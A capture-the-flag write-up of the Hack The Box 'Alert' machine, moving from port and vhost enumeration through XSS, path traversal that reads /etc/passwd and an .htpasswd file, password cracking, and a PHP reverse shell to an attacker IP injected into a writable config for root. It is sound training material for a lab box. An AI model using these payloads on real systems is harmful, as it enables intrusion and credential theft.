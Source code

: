 # Alert Writeup - by Thammanant Thamtaranon
  - Alert is an easy Linux machine on Hack The Box.

## Reconnaissance
  - We start by scanning all ports with service detection using the command `nmap -A -T4 -p- -Pn 10.10.11.44`.
![Nmap_Scan](Nmap_Scan.png)
  - After identifying the hostname, we add `alert.htb` to our `/etc/hosts` file.

## Scanning & Enumeration
  - Using `dirsearch -u alert.htb`, we perform directory enumeration.
![Dirsearch_Scan](Dirsearch_Scan.png)
  - To enumerate virtual hosts, we use:
  ```bash
  ffuf -u http://10.10.11.44 -H "Host: FUZZ.alert.htb" \
       -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt \
       -mc all -ac
  ```
![VHost_Scan](VHost_Scan.png)
  - This reveals `statistics.alert.htb`, which we also add to `/etc/hosts`.
  - Navigating to `http://statistics.alert.htb`, we're prompted for login credentials. Unfortunately, default or common credentials don't work.

## Exploitation
  - We return to `http://alert.htb` and test for XSS by uploading a `.md` file containing:
  ```html
  <script>alert('XSS')</script>
  ```
![XSS](XSS.png)
  - Since the script executes, we know XSS is present and exploitable.
  - We test the "Contact Us" form by sending a benign link like `http://10.10.16.11/hello`.
![Phishing1](Phishing1.png)
![Phishing2](Phishing2.png)
  - Observing that the admin clicks the link, we craft a malicious `.md` file with our payload and send the link to the admin to trigger it.
![Phishing3](Phishing3.png)
  - We then submit the malicious link to the form.
![Phishing4](Phishing4.png)
![Phishing5](Phishing5.png)
  - The link directs to `messages.php?file=2024-03-10_15-48-34.txt`. Visiting it yields nothing, so we try path traversal.
  - Trying `/messages.php?file=../../../../../../etc/passwd`, we discover users `david` and `albert`.
![PASSWD](PASSWD.png)
  - We then enumerate `/etc/apache2/apache2.conf`, which reveals the config includes `sites-enabled/*.conf`.
  - So, we load `/messages.php?file=../../../../../../etc/apache2/sites-enabled/000-default.conf`.
![Config](Config.png)
  - This reveals a reference to an `.htpasswd` file:
  ```
  AuthUserFile /var/www/statistics.alert.htb/.htpasswd
  ```
  - We fetch it using:
  ```
  /messages.php?file=../../../../../../var/www/statistics.alert.htb/.htpasswd
  ```
![Crack1](Crack1.png)
![Crack2](Crack2.png)
  - After cracking the credentials, we use them to log in to `http://statistics.alert.htb`.
  - We enumerate the web app with `dirsearch` again but find nothing useful.

## Privilege Escalation
  - We then SSH into the box as `albert` using the recovered credentials and capture the user flag.
  - Running `sudo -l` confirms `albert` has no sudo privileges.
  - Running `id`, we find albert is part of the `management` group (GID 1001).
  - To look for group-owned files, we run:
  ```
  find / -group management -ls 2>/dev/null
  ```
![Perm](Perm.png)
  - We find that `albert` has write access to `/opt/website-monitor/config/configuration.php`, so we inject a reverse shell payload:
  ```php
  shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.11/4444 0>&1'");
  ```
  - Checking the status of the website-monitor service with `systemctl status website-monitor`, we see it runs on `127.0.0.1:8080`.

### SSH Tunneling & Reverse Shell
  - We establish a tunnel to the service:
  ```
  ssh -L 8080:127.0.0.1:8080 albert@10.10.11.44
  ```
  - On our attacker machine, we start a listener with `nc -lvnp 4444` and visit `127.0.0.1:8080` to trigger the shell.
![Monitor](Monitor.png)
![ROOT](ROOT.png)
  - This gives us a reverse shell as root. We grab the root flag and complete the box.
